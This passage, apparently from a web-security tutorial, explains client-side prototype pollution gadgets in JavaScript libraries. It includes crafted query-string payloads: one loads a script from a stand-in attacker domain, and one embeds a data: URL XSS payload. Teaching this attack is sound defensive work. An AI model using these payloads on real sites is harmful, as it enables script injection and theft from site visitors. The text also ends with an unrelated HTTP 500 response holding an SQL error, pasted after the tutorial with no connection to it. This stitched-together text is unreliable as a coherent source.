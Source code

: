 
Many JavaScript libraries accept an object that developers can use to set different configuration options. The library code checks whether the developer has explicitly added certain properties to this object and, if so, adjusts the configuration accordingly. If a property that represents a particular option is not present, a predefined default option is often used instead. A simplified example may look something like this:

`let transport_url = config.transport_url || defaults.transport_url;`

Now imagine the library code uses this `transport_url` to add a script reference to the page:

``let script = document.createElement('script'); script.src = `${transport_url}/example.js`; document.body.appendChild(script);``

If the website's developers haven't set a `transport_url` property on their `config` object, this is a potential gadget. In cases where an attacker is able to pollute the global `Object.prototype` with their own `transport_url` property, this will be inherited by the `config` object and, therefore, set as the `src` for this script to a domain of the attacker's choosing.

If the prototype can be polluted via a query parameter, for example, the attacker would simply have to induce a victim to visit a specially crafted URL to cause their browser to import a malicious JavaScript file from an attacker-controlled domain:

`https://vulnerable-website.com/?__proto__[transport_url]=//evil-user.net`

By providing a `data:` URL, an attacker could also directly embed an XSS payload within the query string as follows:

`https://vulnerable-website.com/?__proto__[transport_url]=data:,alert(1);//`

Note that the trailing `//` in this example is simply to comment out the hardcoded `/example.js` suffix.


HTTP/2 500 Internal Server Error
Date: Thu, 17 Oct 2024 11:39:30 GMT
Content-Type: application/json
Content-Length: 345
Access-Control-Allow-Credentials: true
Vary: Origin
Cf-Cache-Status: DYNAMIC
Strict-Transport-Security: max-age=6

{"success":false,"errorMessage":"SQL [insert into \"category\" (\"company_id\", \"name\", \"is_active\", \"inform_all_representatives\", \"last_modification\", \"created_ts\", \"system_category\") values (?, ?, ?, ?, current_timestamp, current_timestamp, ?) returning \"category\".\"id\"]; ERROR: value too long for type character varying(100)"}